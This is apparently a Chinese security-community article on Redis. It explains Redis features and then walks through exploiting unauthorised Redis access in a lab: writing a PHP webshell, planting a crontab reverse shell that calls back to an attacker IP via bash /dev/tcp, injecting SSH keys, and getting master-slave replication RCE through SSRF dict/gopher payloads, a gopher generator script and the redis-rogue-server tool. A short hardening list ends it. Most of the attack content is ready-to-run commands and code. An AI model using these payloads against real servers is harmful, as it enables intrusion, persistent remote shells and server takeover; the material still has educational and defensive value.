








# 深度剖析Redis的高性能功能与安全漏洞及防护-先知社区

> **来源**: https://xz.aliyun.com/news/17547  
> **文章ID**: 17547

---

# 介绍

## 背景

当面对大数据量的高并发需求时，单一使用数据库保存数据的系统会因为`面向磁盘，磁盘读/写速度比较慢的问题`而存在严重的性能弊端，需要系统在极短的时间内完成成千上万次的读/写操作，这个时候极其容易造成数据库系统瘫痪，最终导致服务宕机的严重生产问题。

## NoSQL技术

为了克服上述的问题，Java Web项目通常会引入NoSQL技术，这是一种**基于内存的数据库**，并且提供一定的持久化功能。

**Redis**和**MongoDB**是当前使用最广泛的NoSQL，Redis 采用 **C 语言** 编写，提供 **主从复制（Replication）**、**持久化（Persistence）**、**高可用（Sentinel）** 和 **集群（Cluster）** 等特性。它支持简单的 **键值对存储**，同时支持更复杂的数据操作，原则上可以无限扩展，让更多的数据存储在内存中，它还**支持一定的事务能力**，这保证了高并发的场景下数据的安全和一致性。

因此 在JavaWeb项目中，MySQL和Redis通常是同时存在的，MySQL这类关系型数据库通常`负责持久化存储和事务支持`，而Redis数据库则`负责缓存系统来减轻数据库压力`，通常也支持分布式锁和消息队列。

# Redis

`Redis（Remote Dictionary Server）`是一个开源的、基于内存的 NoSQL 数据库，支持多种数据结构（如字符串、哈希、列表、集合、有序集合等）。由于 Redis 主要将数据存储在内存中，因此它的读写速度极快。Redis 主要提供以下核心功能：

* **键值存储**（支持多种数据类型）
* **数据持久化**（RDB 和 AOF 两种方式）
* **主从复制**（Replication）
* **高可用性**（Sentinel 机制监控主从切换）
* **分布式集群**（Cluster 模式）
* **事务支持**（但无回滚机制）
* **Lua 脚本执行**（内置脚本执行环境）
* **消息发布/订阅**（Pub/Sub）

Redis默认配置端口为6379，sentinel.conf配置器默认端口为26379。

由于 Redis 的设计初衷是用于 **内网环境**，安全性并不是其最初的主要考量，因此 Redis 在默认情况下可能存在多个安全风险。`下面就Redis功能引发的安全问题进行探讨`：

## 基础命令

```
$ redis-cli -h host -p port -a password      //登录
redis 127.0.0.1:6379>info      //基本信息
redis 127.0.0.1:6379>set x "xxx"		//将x的值设为xxx
redis 127.0.0.1:6379>KEYS *			//查看所有键
redis 127.0.0.1:6379>config get dir    //获取redis的默认目录
redis 127.0.0.1:6379>config get dbfilename    //获取redis默认的rdb文件名
redis 127.0.0.1:6379>SLAVEOF xxx.xxx.xxx.xxx 6666  //设置xxx为主redis
redis 127.0.0.1:6379>MODULE LOAD /data/dump.rdb   //让redis服务器加载存放在rdb里的.so共享库
```

# Redis未授权访问

攻击者在未授权访问Redis的情况下，利用Redis自身的提供的config命令，可以进行写文件操作，攻击者还可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件的authotrized\_keys 文件中，进而可以使用对应私钥直接使用ssh服务器登录目标服务器。

## 漏洞利用条件

**漏洞的产生条件有以下两点**:

1. Redis绑定在`0.0.0.0:6379`，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
2. 没有设置密码认证（默认为空）或者弱密码，可以登录redis服务。

**漏洞影响版本：** redis 2.x，3.x，4.x，5.x

## 漏洞利用方式

一般会使用Nmap对目标机器进行扫描。如果发现主机的6379端口是对外开放的，并且目标主机开放外网访问的情况下，就能够在本机使用redis-cli服务连接目标服务器，然后进行恶意操作。

1. 利用Redis写入webshell 要求有开启web服务器 能够写入webshell连接
2. 利用Redis写入ssh公钥
3. 利用Redis写入计划任务

## 环境搭建

wget下载漏洞利用的低版本redis

```
wget http://download.redis.io/releases/redis-3.2.0.tar.gz
```

解压安装包

```
tar xzf redis-3.2.0.tar.gz
```

进入redis目录进行编译安装

```
cd redis-3.2.0
make
```

成功make之后 因为我们要复现未授权访问漏洞 所以需要修改配置文件

```
vi redis.cong
```





把 `bind 127.0.0.1`注释掉 `protected-mode`设置为no 保存退出

进入src/目录 使用配置文件 启动服务

```
cd src/
redis-server ../redis.conf
```

成功启动服务



fscan扫到目标linux机器的6379端口开放redis



接下来进行漏洞复现：

## 漏洞复现

目标主机ip：192.168.214.103 攻击机ip：192.168.214.83

### 利用Redis写入WebShell

* 利用前提：在攻击机上能用redis-cli可以直接登陆连接。若服务端存在Web服务，并且知道Web目录的绝对路径，那么可以向该目录写入webshell，然后使用蚁剑连接getshell。
* 这里的路径我们可以的通过phpinfo或者报错、查看源码、SQL注入，等一系列方法寻找出正确的物理路径

首先连接redis靶机`redis-cli.exe -h 192.168.214.103`



1. 假设已知web目录路径为/var/www/html，将dir设置为/var/www/html目录，意为将指定本地数据库存放目录设置为/var/www/html。
2. 将dbfilename设置为文件名shell.php，即指定本地数据库文件名为shell.php。
3. 使用set写入webshell
4. 再执行save命令就可以写入一个路径为/var/www/html/shell.php的文件，save命令将当前redis实例的数据写入到磁盘，持久化保存。

```
config set dir /var/www/html
config set dbfilename shell.php
set webshell "\r
\r
<?php eval($_POST[shell]);?>\r
\r
"
save
```

\
\
是换行的意思，用redis写入文件的会自带一些版本信息，如果不换行可能会导致无法执行。

### 利用Redis写入计划任务

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

与上文写入webshell类似 连接上目标靶机的redis服务

```
config set dir /var/spool/cron/crontabs
config set dbfilename root
set x "

*/1 * * * * bash -i >& /dev/tcp/192.168.214.83/33333 0>&1

"
save
```

攻击机开启监听 过会就会拿到shell

```
nc -lvnp 33333
```

`注意：定时任务以root权限运行 所以redis要以root权限开启服务`

### 利用Redis获得SSH公钥认证

在以下条件下,可以利用此方法

* Redis 服务使用 ROOT 账号启动
* 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

攻击机生成ssh公钥和私钥，密码为空

```
ssh-keygen -t rsa
```



进入.ssh目录 将生成的公钥保存到test.txt



链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```
  cat test.txt | redis-cli -h <hostname> -x set test
```

登录成功

```
CONFIG GET dir      //得到redis备份的路径
config set dir "/root/.ssh"    //更改redis备份路径为ssh公钥存放目录
get test            
config set dbfilename "authorized_keys"
save
```

在攻击机直接通过ssh连接靶机

```
ssh -i id_rsa root@<ip>
```

成功连接

# Redis主从复制rce

## 主从复制

主从复制（Replication），是一种数据同步机制，是指将一台Redis服务器的数据，复制到其他的Redis服务器以实现`数据备份、读写分离和高可用性`。前者称为主节点(master)，后者称为从节点(slave)；数据的复制是单向的，只能由主节点到从节点。

Redis虽然读取写入的速度都特别快，但是也会产生读压力特别大的情况。`为了分担读压力，Redis支持主从复制`，Redis的主从结构可以采用一主多从或者级联结构，Redis主从复制可以根据是否是全量分为全量同步和增量同步。

Redis的持久化使得机器即使重启数据也不会丢失，因为redis服务器重启后会把硬盘上的文件重新恢复到内存中。但是要保证硬盘文件不被删除，而主从复制则能解决这个问题，`主redis的数据和从redis上的数据保持实时同步`，当主redis写入数据是就会通过主从复制复制到其它从redis。

主服务器可以进行读写操作，当发生写操作时自动将写操作同步给从服务器，而从服务器一般是只读，并接受主服务器同步过来写操作命令，然后执行这条命令。这样，就给从Redis造成了rce漏洞。

## 漏洞利用

### 背景

在传统的Web项目部署中，我们可以利用`crontab`、`ssh key`、`webshell`等文件来获取服务器的shell权限。这些文件具有一定的容错性，且`crontab`和`ssh`服务通常是服务器的标准服务，因此通过写入文件来实现`getshell`的方式在过去较为通用。

然而，随着现代服务部署方式的不断发展，组件化成为不可逃避的大趋势，Docker作为容器化技术的代表应运而生。在Docker容器化部署模式下，一个单一的容器中通常只运行一个服务，例如Redis容器中仅包含Redis服务。容器内部不会包含除自身服务外的其他服务，如`sh`和`crontab`等。同时，Docker容器的权限也得到了严格控制。在这种情况下，仅靠写入文件的方式很难再实现`getshell`，我们就需要寻找其他利用手段。因此 Redis主从复制rce应运而生。

### 利用原理

**恶意模块加载**

自从Redis4.x之后redis新增了一个模块功能，Redis模块可以使用外部模块扩展Redis功能，以一定的速度实现新的Redis命令，并具有类似于核心内部可以完成的功能。Redis模块是动态库，可以在启动时或使用`MODULE LOAD`命令加载到Redis中。但是在真实环境中，我们如何把恶意的.so文件传输给目标服务器呢？这就用到了上文提到的`redis的主从复制`

主节点通过RDB快照或增量命令将数据同步到从节点。攻击者通过**伪造主节点**，在同步过程中植入恶意模块（`.so`文件），诱导从节点加载并执行该模块，从而触发远程代码执行（RCE）。



**条件**

此漏洞的利用需满足以下条件：

* 从节点允许与任意主节点建立复制关系（默认配置无限制）。
* Redis未禁用模块加载功能（默认启用）。
* 漏洞存在于4.X、5.X版本中，

`未授权访问` : 未启用认证功能或认证密码为空，用户可直接连接  
`授权访问` : 能通过弱口令认证或者直接知道认证密码访问到Redis服务器

## 攻击利用

### SSRF打redis

**dict攻击**

首先利用dict协议探测内网存活端口

`/?url=dict://0.0.0.0:6379` 这里的端口可以使用burp进行爆破

查看redis信息

`/?url=dict://0.0.0.0:6379/info`

探测是否设置口令

`/?url=dict://0.0.0.0:6379/auth:root` 这里口令root使用burp爆破

设置备份文件名

`/?url=dict://0.0.0.0:6379/config:set:dbfilename:exp.so`

连接恶意Redis服务器  
`/?url=dict://0.0.0.0:6379/slaveof:xxx.xxx.xxx.xxx:1234`

加载恶意模块  
`/?url=dict://0.0.0.0:6379/module:load:./exp.so`

切断主从复制  
`/?url=dict://0.0.0.0:6379/slaveof:no:one`

执行系统命令  
`/?url=dict://0.0.0.0:6379/system.rev:xxx.xxx.xxx.xxx:9999`

**gopher攻击**

下面是一个gopher协议生成脚本

```
import urllib

HOST = "127.0.0.1"
PORT = "6379"

def ord2hex(string):
    return '%'+'%02x' % (ord(string))
    
exp = "gopher://%s:%s/_" % (HOST, PORT)

for line in open("redis.cmd", "r"):
    word = ""
    str_flag = False
    redis_resps = []
    for char in line:
        if str_flag == True:
            if char == '"' or char == "'":
                str_flag = False
                if word != "":
                    redis_resps.append(word)
                word = ""
            else:
                word += char
        elif word == "" and (char == '"' or char == "'"):
            str_flag = True
        else:
            if char == " ":
                if word != "":
                    redis_resps.append(word)
                word = ""
            elif char == "
":
                if word != "":
                    redis_resps.append(word)
                word = ""
            else:
                word += char
    #print redis_resps
    tmp_line = '*' + str(len(redis_resps)) + '\r
'
    for word in redis_resps:
        tmp_line += '$' + str(len(word)) + '\r
' + word + '\r
'
    exp += "".join([ord2hex(i) for i in tmp_line])

print exp
```

我们可以在同目录的redis.cmd下写入要执行的redis命令

```
CONFIG GET dbfilename
CONFIG GET dir
SLAVEOF xxx.xxx.xxx.xxx 6666     //自己公网服务器的主redis
MODULE LOAD /data/dump.rdb
system.exec id
system.rev xxx.xxx.xxx.xxx 9999    
```

通过利用gopher协议，完成主从rce

### 使用脚本exp进行攻击

利用 Redis 的主从复制机制进行远程代码执行（RCE），通常需要一个受控的主服务器（master）与目标 Redis 实例建立主从关系。这并不要求在本地运行一个完整的 Redis 主服务器，而是可以通过模拟 Redis 主服务器的行为来实现。使用 `redis-rogue-server` 工具，攻击者可以在本地运行一个伪造的 Redis 服务器，监听特定端口，等待目标 Redis 实例连接。然后，通过该工具向目标 Redis 实例推送恶意模块，实现 RCE。

下载项目

<https://github.com/n0b0dyCN/redis-rogue-server>

```
python ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
```

可获得交互式shell实现对目标 Redis 实例的控制和利用。

# Redis安全防护

* 使用强密码认证：不使用默认空密码，设置一个强复杂密码
* 绑定本地登录地址：在配置文件中设置 bind 127.0.0.1，限制仅本地访问
* 禁用远程连接：设置 protected-mode 和 rename-command 防止远程连接
* 网络隔离：将 Redis 服务放在内网环境，不向公网开放端口
